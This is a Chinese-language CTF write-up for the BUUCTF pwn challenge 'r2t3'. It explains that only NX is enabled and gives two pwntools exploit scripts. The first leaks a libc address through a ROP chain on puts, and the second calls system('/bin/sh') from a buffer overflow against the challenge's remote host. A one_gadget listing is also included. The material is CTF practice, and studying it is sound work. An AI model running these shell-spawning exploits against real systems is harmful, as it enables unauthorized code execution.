 # r2t3

保护只开了NX

![ESZnzS](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/ESZnzS.png)

漏洞点

![VY0Vw6](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/VY0Vw6.png)

一开始用ROP leak地址。。。结果不知道为啥，只能溢出一次。。。第二次输入长度就是不对。。。

而且第一次溢出也有点问题，不清楚自己是怎么绕过的。。

 ```python
#!/usr/bin/python
from pwn import *


p=process("r2t3.dms")
#p=remote("node3.buuoj.cn",25088)
context.log_level='Debug'
gdb.attach(p,'b *0x80485E1') #,'b *0x80485E1'
#libc=ELF('libc-2.29-2.so')
libc=ELF('/lib/i386-linux-gnu/libc-2.23.so')
BIN=ELF('r2t3.dms')

main=0x804863B
system_plt=BIN.plt['system']
puts_plt=BIN.plt['puts']
puts_got=BIN.got['puts']
puts_offset=libc.symbols['puts']

print "system_plt"+hex(system_plt)
print "puts_plt"+hex(puts_plt)
print "puts_got"+hex(puts_got)
print "puts"+hex(puts_offset)
payload="A"*(0x19-4)+p32(puts_plt)+p32(main)+p32(puts_got)
p.sendline(payload+"A"*(0x400-0x28))
#p.recv(0x487) local
p.recvuntil("AAA\n")
p.recv(0x1a+8)

leak=u32(p.recv(4))
libc_addr=leak-puts_offset
print "leak="+hex(leak)
print "libc="+hex(libc_addr)


#p.recvuntil("Please input your name:")
binsh= next(libc.search('/bin/sh\x00'))
binsh=libc_addr+binsh
print "binsh="+hex(binsh)
#p.sendline(payload+"A"*(0x400-0x28))
p.sendline("A"*(0x19-4)+p32(system_plt)+p32(main)+p32(binsh)+"A"*(0x300-0x20))
#p.sendline("A"*0x3f9)

#p.sendline("A"*0x280)
#one_gadget=0x106ef8+libc_addr

p.interactive()

'''

$ one_gadget libc-2.29.so 
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
 ```

后来发现/bin/sh地址在ELF里就有。。。浪费了好多时间

```python
#!/usr/bin/python
from pwn import *


#p=process("r2t3.dms")
p=remote("node3.buuoj.cn",25088)
context.log_level='Debug'
#gdb.attach(p,'b *0x8048615') #,'b *0x80485E1'
libc=ELF('libc-2.29-2.so')
#libc=ELF('/lib/i386-linux-gnu/libc-2.23.so')
BIN=ELF('r2t3.dms')

main=0x804863B
system_plt=BIN.plt['system']
#puts_plt=BIN.plt['puts']
#puts_got=BIN.got['puts']
#puts_offset=libc.symbols['puts']
print "system_plt"+hex(system_plt)

binsh=0x8048760
payload="A"*(0x19-4)+p32(system_plt)+p32(main)+p32(binsh)
p.sendline(payload+"A"*(0x400-0x28))

p.interactive()
```



![UZeJVr](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/UZeJVr.png)